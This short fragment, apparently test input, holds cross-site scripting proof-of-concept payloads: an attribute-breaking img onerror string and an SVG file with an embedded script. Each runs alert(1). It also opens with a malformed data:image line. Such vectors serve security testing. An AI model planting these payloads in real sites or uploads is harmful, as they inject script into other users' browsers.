 # vv
">&lt;img src=x onerror=alert(1);>



<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert(1);
   </script>
</svg>
